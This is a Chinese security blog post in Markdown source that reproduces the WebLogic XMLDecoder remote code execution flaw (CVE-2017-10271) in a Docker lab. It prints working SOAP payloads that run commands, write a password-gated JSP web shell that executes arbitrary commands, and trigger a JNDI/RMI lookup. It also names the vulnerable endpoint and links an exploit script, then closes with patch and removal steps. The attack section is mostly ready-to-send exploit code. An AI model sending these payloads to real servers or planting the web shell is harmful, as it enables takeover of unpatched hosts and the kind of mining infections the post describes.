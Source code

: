 ```yaml
---
title: Weblogic 0day 复现
date: 2017-12-22 15:43:02
tags: [vul,sec,weblogic,0day]
categories: Security
---
```

<script src="https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/pangu.js"></script>

最近不断听到消息，大量Weblogic主机被挂挖矿病毒，起初以为是利用之前反序列化漏洞(CVE-2017-3248)，但是团队内部从受害主机捕获的攻击代码来看，这次是针对WebLogic的WLS组件，利用xmldecoder反序列漏洞进行的RCE攻击。目前官方也给出了此次漏洞的cve[CVE-2017-10271](https://www.cvedetails.com/cve/CVE-2017-10271/)

下面我们来复现一下此次的漏洞
#### 0x01 环境准备
我们选择docker来快速搭建漏洞环境，此次漏洞受影响的版本是10.3.6.0.0, 12.1.3.0.0, 12.2.1.1.0 和 12.2.1.2.0，我们选择10.3.6来复现

在P神的[vulhub](https://github.com/vulhub/vulhub)项目中正好存在weblogic环境，看了下版本也在受影响范围之内，所以我们选择vulhub的[weblogic](https://github.com/vulhub/vulhub/tree/master/weblogic/ssrf)镜像

克隆项目，进入weblogic目录，执行
```
docker-compose build
docker-compose up -d
```
此时会创建并运行两个容器，分别是`vulhub/weblogic`和`vulhub/weblogic`, 如下图

![containers](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/gbF5V)

访问7001端口，weblogic已经成功运行

#### 0x02 PoC
```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
	<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
		<java version="1.8.0_131" class="java.beans.XMLDecoder">
		  <void class="java.lang.ProcessBuilder">
			<array class="java.lang.String" length="3">
			  <void index="0">
				<string>/bin/bash</string>
			  </void>
			  <void index="1">
				<string>-c</string>
			  </void>
			  <void index="2">
				<string>calc</string>
			  </void>
			</array>
		  <void method="start"/></void>
		</java>
	  </work:WorkContext>
	</soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
```
向`/wls-wsat/CoordinatorPortType`发起一个POST请求，body部分为上面的内容，**修改`Content-Type`为`text/xml`**

目前了解的uri还有`CoordinatorPortType11`

服务器返回
```
<faultcode>S:Server</faultcode>
<faultstring>0</faultstring>
```
说明执行成功

![response](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/yn2qT)
![reverse shell](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/YOZ6L)

#### 0x03 Getshell
另外还有直接getshell的PoC:
```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
        <java><java version="1.4.0" class="java.beans.XMLDecoder">
            <object class="java.io.PrintWriter">
                <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/a.jsp</string><void method="println">
                    <string><![CDATA[<%if("023".equals(request.getParameter("pwd"))){  
                        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();  
                        int a = -1;  
                        byte[] b = new byte[2048];  
                        out.print("<pre>");  
                        while((a=in.read(b))!=-1){  
                            out.println(new String(b));  
                        }  
                        out.print("</pre>");} %>]]></string></void><void method="close"/>
            </object>
        </java>
      </java>
    </work:WorkContext>
  </soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```
会在`tmp/_WL_internal`下`bea_wls9_async_response`、`bea_wls_internal`和`uddiexplorer`目录中的war包下创建a.jsp文件，具体路径可自己选择，对应的web路径是

`http://x.x.x.x:7001/bea_wls_internal/a.jsp`
	
#### 0x04 RMI 利用

导师还给出了rmi调用执行的方式，可惜我对rmi机制还没研究透彻，没有构造出来利用的流程，先把PoC放在这儿:
```
    <java version="1.8.0_131" class="java.beans.XMLDecoder">
    <void class="com.sun.rowset.JdbcRowSetImpl">
    <void property="dataSourceName">
    <string>rmi://localhost:1099/Exploit</string>
    </void>
    <void property="autoCommit">
    <boolean>true</boolean>
    </void>
    </void>
    </java>
```
更新：研究了一下rmi利用，更新在了[这里](https://kylingit.com/blog/weblogic-xmldecoder-rce%E4%B9%8Brmi%E5%88%A9%E7%94%A8/)

目前看到PoC的变换还有好几种，甚至出现了绕过官方补丁的版本，后续应该会逐渐放出的。

#### 0x05 修补方案
1.安装Oracle 10月份最新补丁

2.删除或重命名WebLogic目录中以下war包及目录
```
rm -f /home/WebLogic/Oracle/Middleware/wlserver_10.3/server/lib/wls-wsat.war
rm -f /home/WebLogic/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/wls-wsat.war
rm -rf /home/WebLogic/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/wls-wsat
```
访问`wls-wsat`响应404即可

#### 0x06 
附
Github上[3xp10it/exploit](https://github.com/3xp10it/exploit/blob/cbc8d61859b9c4c312bb52225671831b895fdbc3/exps/weblogic/weblogic.py)仓库删除的脚本
[Weblogic.py](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/others/weblogic.py)


<script>pangu.spacingPage();</script>